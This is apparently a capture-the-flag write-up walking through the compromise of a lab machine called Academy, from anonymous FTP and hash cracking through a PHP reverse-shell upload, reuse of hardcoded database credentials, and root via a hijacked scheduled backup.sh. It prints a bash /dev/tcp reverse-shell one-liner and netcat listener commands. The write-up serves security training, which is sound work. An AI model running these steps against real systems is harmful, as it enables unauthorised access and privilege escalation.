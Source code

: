 # Academy machine writeup

Starting with nmap scan we have three ports open 21 22 80 for ftp ssh http

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/76c63fa9-0903-4491-b0b6-0b3967847799)

let's enumerate ftp. Let's see if it provides anonymous login

![ftp](https://github.com/moataz-bellah/writeups/assets/47069499/8d375b8c-4015-4b4e-8807-f9d375e91ea0)

Great it does provide anonymous login. We have an interesting file "note.txt". Check that file

![note](https://github.com/moataz-bellah/writeups/assets/47069499/9cd0569b-37eb-432e-b655-0ac8f41ad4d2)

It has inssert query, ok we have good findings like user_id and password hash. Crack the hash using online website like LINK.  
Yes we cracked the hash and it is "student", but how we can use that credential. Let's do some directory busting using ffuf. Why ffuf, because ffuf doesn't search inside any directory.
```
ffuf -u http://192.168.0.105/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: academy

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: phpmyadmin

```
We found two paths /academy and /phpmyadmin. Let's try the credential we found in phpmyadmin, but it didn't work and it seems to be not vulnerable to sql injection, let's go to /academy. 

![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/6a8fda7f-287b-4de8-ae98-c516ae16f97b)

Great we are in, ok we are looking for a way to get a shell, there is file upload we can check it if it is vulnerable to RFI.

![upload](https://github.com/moataz-bellah/writeups/assets/47069499/df76ce66-4371-4833-aa28-ce93c7b111b9)

As we saw it is a php app we can use php reverse shell. Before we upload the shell we need to set netcat to listen to any incoming connections.
```
sudo nc -nvlp 1234
```
Upload the file

![netcat](https://github.com/moataz-bellah/writeups/assets/47069499/59faf962-7311-4dfb-a177-3da285d1e0a8)

Boom we have access, go to home
```
$ cd /home
$ ls
grimmie
```
we have grimmie user
```
cd grimmie
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
```
we have interesting file "backup.sh" but we can't execute it since we are www-data, we need to be grimmie, leave it now and continue exploring the server. Let's explore the website code files looking for any hardcoded credentials.
```
$ cd /var/www/html/academy
admin                   enroll-history.php  my-profile.php
assets                  enroll.php          pincode-verification.php
change-password.php     includes            print.php
check_availability.php  index.php           studentphoto
db                      logout.php
```
Inside admin/includes, there is a hardcoded credentials for mysql database
```
$ cd admin
$ cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```
Great we have username "grimmie" and password "My_V3ryS3cur3_P4ss", let's try to switch to grimmie
```
$ su grimmie
su grimmie
Password: My_V3ryS3cur3_P4ss

grimmie@academy:/var/www/html/academy/admin/includes$ whoami
grimmie
grimmie@academy:/var/www/html/academy/admin/includes$
```
# Privilege Escalation
Ok, get back to backup.sh, it seems that file executes each period of time, we need to make sure of that. Let's edit backup.sh and make it create a file
```
$ echo -e '#!/bin/bash \ntouch test' > backup.sh
```
We wait for a moment and see if something changes.
```
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 test
```
Great it worked, we can use that and get shell and get root privilege
```
$ echo -e '#!/bin/bash \nbash -i >& /dev/tcp/192.168.0.104/4444 0>&1' > backup.sh
```
Let's set netcat to listen on port 4444 and wait for any connection
```
sudo nc -nvlp 4444
```

![root_shell](https://github.com/moataz-bellah/writeups/assets/47069499/fa475814-fe12-4614-aa8a-0afe54bcf2e4)

Yeah we are root now.
